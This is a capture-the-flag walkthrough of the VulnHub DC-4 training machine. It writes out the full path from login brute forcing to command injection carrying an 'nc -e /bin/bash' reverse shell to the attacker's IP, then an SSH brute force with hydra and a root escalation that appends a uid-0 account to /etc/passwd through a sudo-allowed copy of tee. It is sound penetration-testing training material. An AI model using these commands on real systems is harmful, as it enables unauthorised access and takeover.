

# VulnHub > DC 4

**About Release**

* Name: DC: 4
* Date release: 7 Apr 2019
* Author: DCAU
* Series: DC
* Web page: http://www.five86.com/dc-4.html

**Description**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Download**

* DC-4.zip (Size: 617 MB)
* Download: http://www.five86.com/downloads/DC-4.zip
* Download (Mirror): https://download.vulnhub.com/dc/DC-4.zip
* Download (Torrent): https://download.vulnhub.com/dc/DC-4.zip.torrent ([Magnet](magnet:?xt=urn:btih:38B448B4F3AC9E4057139C5121CEBCB26CC0E612&dn=DC-4.zip&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

# Initial foothold

## Services Enumeration

Nmap discovers 2 open ports: SSH (22/tcp) and HTTP (80/tcp):

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web enumeration

Connecting to http://dc-4/ shows an authentication form. The form is not vulnerable to SQL injection (tested with `sqlmap`).

There is no `robots.txt` file, but `gobuster` reveals that there is a `command.php` file, which is not accessible until we are authenticated.

~~~
kali@kali:/data/DC_4$ gobuster dir -u http://dc-4/ -x php,txt,htm,html,tar,zip,gz,bak,old -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://dc-4/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,tar,zip,gz,php,htm,old,txt,bak
[+] Timeout:        10s
===============================================================
2020/10/06 20:10:45 Starting gobuster
===============================================================
/command.php (Status: 302)
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/login.php (Status: 302)
/logout.php (Status: 302)
===============================================================
2020/10/06 20:10:49 Finished
===============================================================
~~~

# Brute force the authentication

The only option seems to brute force the authentication form. As we are not provided with any hint, the username will likely be something easily guessable (e.g. `admin`, `administrator`, `root`, `guest`, ...).

As far as the password, we'll start with common passwords:

~~~
kali@kali:/data/DC_4/files$ wget https://raw.githubusercontent.com/shipcod3/Piata-Common-Usernames-and-Passwords/master/userpass.txt
kali@kali:/data/DC_4/files$ cut -d " " -f2 userpass.txt > pass.txt
~~~

Assuming that the login is `admin`, let's start a brute force attack:

~~~
kali@kali:/data/DC_4/files$ wfuzz -z file,pass.txt -d "username=admin&password=FUZZ" --hw 17 http://dc-4/login.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://dc-4/login.php
Total requests: 917

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                          
===================================================================

000000027:   302        15 L     28 W     367 Ch      "happy"                                                                          

Total time: 0.937141
Processed Requests: 917
Filtered Requests: 916
Requests/sec.: 978.5078
~~~

# Reverse shell

## Login as `admin`

Once authenticated with `admin:happy`, we see a page with a link to "System Tools > Command". Click on the link to be redirected to a form with 3 commands:

## Tampering the form

Intercepting the request in BurpSuite shows that the commands are directly passed in the `radio` parameter, and it should be straighforward to inject arbitrary commands (e.g. a reverse shell).

Start a listener (`rlwrap nc -nlvp 4444`), click on the "Run" button and intercept the request in Burp Suite. Tamper the request to send a reverse shell:

~~~
POST /command.php HTTP/1.1
Host: dc-4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dc-4/command.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Connection: close
Cookie: PHPSESSID=l7l246d50mg3mohv6ellt25721
Upgrade-Insecure-Requests: 1

radio=nc -e /bin/bash 172.16.222.128 4444&submit=Run
~~~

## Connection as www-data

A reverse shell is not spawned to our listener window:

~~~
kali@kali:/data/DC_4/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.159] 50606
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-4:/usr/share/nginx/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-4:/usr/share/nginx/html$ 
~~~

# Lateral move (www-data -> jim)

## Passwords backup file

Listing the `/home` directory reveals 3 users:

~~~
ls -la /home
total 20
drwxr-xr-x  5 root    root    4096 Apr  7  2019 .
drwxr-xr-x 21 root    root    4096 Apr  5  2019 ..
drwxr-xr-x  2 charles charles 4096 Apr  7  2019 charles
drwxr-xr-x  3 jim     jim     4096 Apr  7  2019 jim
drwxr-xr-x  2 sam     sam     4096 Apr  7  2019 sam
~~~

There is an interesting `backups` directory in `jim`'s home folder, that contains a passwords dictionary. Let's get the file locally to perform a brute force attack.

~~~
www-data@dc-4:/home/jim/backups$ ls -la
ls -la
total 12
drwxr-xr-x 2 jim jim 4096 Apr  7  2019 .
drwxr-xr-x 3 jim jim 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim jim 2047 Apr  7  2019 old-passwords.bak
www-data@dc-4:/home/jim/backups$ head old-passwords.bak
head old-passwords.bak
000000
12345
iloveyou
1q2w3e4r5t
1234
123456a
qwertyuiop
[REDACTED]
~~~

## Brute force

Let's brute force jim's SSH account:

~~~
kali@kali:/data/DC_4/files$ hydra -l jim -P old-passwords.bak ssh://dc-4 -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-07 08:13:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 252 login tries (l:1/p:252), ~4 tries per task
[DATA] attacking ssh://dc-4:22/
[22][ssh] host: dc-4   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 47 final worker threads did not complete until end.
[ERROR] 47 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-07 08:13:34
~~~

## Connect as jim

Now that we have brute forced jim's account, let's connect:

~~~
kali@kali:/data/DC_4/files$ sshpass -p "jibril04" ssh jim@dc-4
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Wed Oct  7 16:16:06 2020 from 172.16.222.128
jim@dc-4:~$ id
uid=1002(jim) gid=1002(jim) groups=1002(jim)
~~~

# Lateral move (jim -> charles)

Enumerating the target will reveal an email sent from Charles to Jim, disclosing `charles`' password:

~~~
jim@dc-4:/var/spool/mail$ cat jim 
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
~~~

Let's switch to `charles`:

~~~
jim@dc-4:/var/spool/mail$ su charles
Password: ^xHhA&hvim0y
charles@dc-4:/var/spool/mail$ 
~~~

# Privilege escalation

## `teehee` is a copy of `tee`

Charles can run a binary called `teehee` as `root` without password:

~~~
charles@dc-4:/var/spool/mail$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
~~~

Dumping the strings of the executable will reveal that it has a help:

~~~
charles@dc-4:/var/spool/mail$ /usr/bin/teehee --help
Usage: /usr/bin/teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'
~~~

This `teehee` executable is actually a copy of the `tee` program:

~~~
jim@dc-4:~$ /usr/bin/md5sum /usr/bin/teehee
b2e9a2429515d5bcd77fa8f88f892f0f  /usr/bin/teehee
jim@dc-4:~$ /usr/bin/md5sum /usr/bin/tee
b2e9a2429515d5bcd77fa8f88f892f0f  /usr/bin/tee
~~~

## Create a privileged user

As we can run `tee` (or a copy of it) as `root`, we can add a privileged user to `/etc/passwd` as follows:

~~~
charles@dc-4:/var/spool/mail$ openssl passwd -1 -salt "myroot" "myrootpassword"
$1$myroot$c4NJl3zgApNDMQB5UN.ML1
charles@dc-4:/var/spool/mail$ printf 'myroot:$1$myroot$c4NJl3zgApNDMQB5UN.ML1:0:0:root:/root:/bin/bash\n' | sudo /usr/bin/teehee -a /etc/passwd
myroot:$1$myroot$c4NJl3zgApNDMQB5UN.ML1:0:0:root:/root:/bin/bash
~~~

Now, switch to the new user:

~~~
charles@dc-4:/var/spool/mail$ su myroot
Password: myrootpassword
root@dc-4:/var/spool/mail# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-4:/var/spool/mail# 
~~~

## Root flag

Let's get the root flag:

~~~
root@dc-4:/var/spool/mail# cd /root
root@dc-4:~# ls -la
total 28
drwx------  3 root root 4096 Apr  7  2019 .
drwxr-xr-x 21 root root 4096 Apr  5  2019 ..
-rw-------  1 root root   16 Apr  7  2019 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  976 Apr  6  2019 flag.txt
drwxr-xr-x  2 root root 4096 Apr  6  2019 .nano
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
root@dc-4:~# cat flag.txt 

888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 

Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
~~~
